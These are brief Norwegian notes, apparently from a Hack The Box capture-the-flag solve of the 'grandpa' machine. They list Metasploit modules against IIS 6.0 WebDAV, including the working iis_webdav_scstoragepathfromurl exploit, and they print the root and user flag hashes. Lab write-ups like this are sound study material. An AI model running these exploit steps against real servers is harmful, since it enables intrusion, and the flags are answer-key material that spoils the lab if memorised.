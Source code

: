 ## grandpa 10.10.10.14

* Uncommon header 'microsoftofficewebserver' found, with contents: 5.0\_Pub

kjører iis 6.0. kan exploites med webdav?

exploit/windows/iis/iis\_webdav\_upload\_asp skulle fungert, men gjør ikke det. får server error

use auxiliary/scanner/http/http\_put

use exploit/windows/iis/iis\_webdav\_upload\_asp

403 forbidden

[http://10.10.10.14/images/](http://10.10.10.14/images/) eksisterer

10.10.10.14 \(Microsoft-IIS/6.0\) has WEBDAV ENABLED

use exploit/windows/iis/iis\_webdav\_scstoragepathfromurl

**shell - den virker. husk å resete først**

priv esc fra granny skal virke. må bare få lastet opp fil.

auxiliary/scanner/http/dir\_scanner for å finne dir

**set targeturi /\_vti\_bin**

**9359e905a2c35f861f6a57cecf28bb7b **root.txt

user.txt **bdff5ec67c3cff017f2bedc146a5d869**

